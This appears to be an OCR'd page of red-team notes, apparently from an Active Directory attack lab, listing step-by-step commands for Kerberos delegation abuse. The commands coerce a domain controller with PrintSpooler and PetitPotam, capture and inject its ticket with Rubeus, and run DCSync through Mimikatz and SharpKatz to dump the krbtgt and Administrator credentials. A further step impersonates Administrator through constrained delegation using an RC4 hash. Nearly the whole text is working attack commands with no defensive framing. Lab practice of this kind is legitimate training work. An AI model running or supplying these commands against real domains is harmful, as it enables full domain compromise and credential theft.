 ### Kerberos Delegation

    ```powershell

    >> Unconstrained Delegation

    # Step 1. Identify Computer Account with Unconstrained Delegation
    Get-DomainComputer -Unconstrained | select samaccountname

    # Step 2. Use PrintSpool attack to force DC$ machine account running print spooler service to authenticate with our Web server having unconstrained delegation enabled. 
    .\MS-RPRN.exe \\us-dc.techcorp.local \\us-web.us.techcorp.local
    .\Petitpotam.exe us-web us-dc

    # Step 3. Login to unconstrained server and execute Rubeus to monitor for ticket
    .\Rubeus.exe monitor /nowrap /targetuser:US-DC$ /interval:5

    # Step 4. Use the Base64 encoded TGT 
    .\Rubeus.exe ptt /ticket:abcd==

    NOTE: Above injected ticket cannot be used directly for code execution but DCSync will work

    # Step 5. DCsync 
    . .\Invoke-Mimi.ps1
    Invoke-Mimi -Command '"lsadump::dcsync /user:us\krbtgt"'
    Invoke-Mimi -Command '"lsadump::dcsync /user:us\Administrator"'
    C:\AD\Tools\SharpKatz.exe --Command dcsync --User techcorp\administrator --Domain techcorp.local --DomainController techcorp-dc.techcorp.local

    >> Constrained Delegation

    - Kerberos Only delegation
    - Protocol Transition for non kerberos service

    # Step 1. Identify a Computer or User account having constrained delegation enabled
    Get-DomainUser -TrustedToAuth | select samaccountname,msds-allowedtodelegateto
    Get-DomainComputer -TrustedToAuth | select samaccountname,msds-allowedtodelegateto

    # Steo 2. Request TGS for Alternate service using the session of affected user
    .\Rubeus.exe s4u /user:appsvc /rc4:1d49d390ac01d568f0ee9be82bb74d4c /impersonateuser:Administrator /msdsspn:"CIFS/us-mssql" /altservice:HTTP /domain:us.techcorp.local /ptt
